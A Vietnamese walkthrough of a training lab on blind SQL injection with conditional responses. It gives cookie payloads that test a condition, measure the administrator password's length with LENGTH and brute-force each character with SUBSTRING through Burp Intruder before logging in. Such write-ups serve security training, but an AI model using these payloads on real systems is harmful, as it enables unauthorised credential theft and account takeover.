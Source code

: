# Blind SQL injection with conditional responses

Khi mới vào ta thấy đây là 1 trang web bình thường, thử `F5` xem nhé, vậy là thấy sự khác nhau trước và sau khi tải lại trang:

- Trước khi `Reload`:

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135511855901708328/image.png)

- Sau khi `Reload`:

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135511905327403018/image.png)

Vậy là xuất hiện thông báo `Welcome back!`.

- Ta thay đổi Cookie thành dạng:
   - `TrackingId=xxx' and '1'='1` thì vẫn thấy thông báo `Welcome back!`.
   - `TrackingId=xxx' and '1'='2` thì không thấy thông báo `Welcome back!` nữa.

Vậy đây là Blind SQL injection.

Bài lab này cho ta biết dữ liệu bên trong bảng `users` gồm 2 cột `username` và `password`, yêu cầu là ta phải đăng nhập với tài khoản `administrator`.

Sử dụng câu lệnh sau để xem có bao nhiêu kí tự trong mật khẩu của quản trị viên, nếu xuất hiện thông báo `Welcome back!` nghĩa là điều kiện bên trong câu lệnh là `True`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`
...

- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a`
- `TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>20)='a` (Tới đây thì đã False)

Vậy là mật khẩu quản trị viên chưa 20 kí tự.

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135946312303525919/image.png)

Tiếp theo ta sử dụng câu lệnh sau để dò từng kí tự của mật khẩu:
- `TrackingId=xxx' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='3`

Ta send request tới Intruder và brute force từng kí tự của mật khẩu 

- `TrackingId=xxx' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§b§` ( add biến cần thay đổi vào payload)

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135948776838803548/image.png)

- Tiếp theo click vài `Payloads` rồi add thêm items(bao gồm tất cả chữ cái và chữ số) rồi `Start attacks`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1135949207107280906/image.png)

Ta để ý ở phần `Length` xem cái nào dài nhất thì cái đó chính là `True` và chứa kí tự của mật khẩu.

Tiếp theo ta thay đổi SUBSTRING(password,`thứ tự của kí tự trong mật khẩu`,1) rồi brute force và sẽ tìm được mật khẩu (vì mình dùng BurpSuite bản lỏd nên phải làm như này, nếu là Burp pro thì chỉ cần brute một lần là có mật khẩu luôn rùi).
Sau khi có mật khẩu rùi thì đăng nhập với tên đăng nhập `administrator` và solve lab thui.

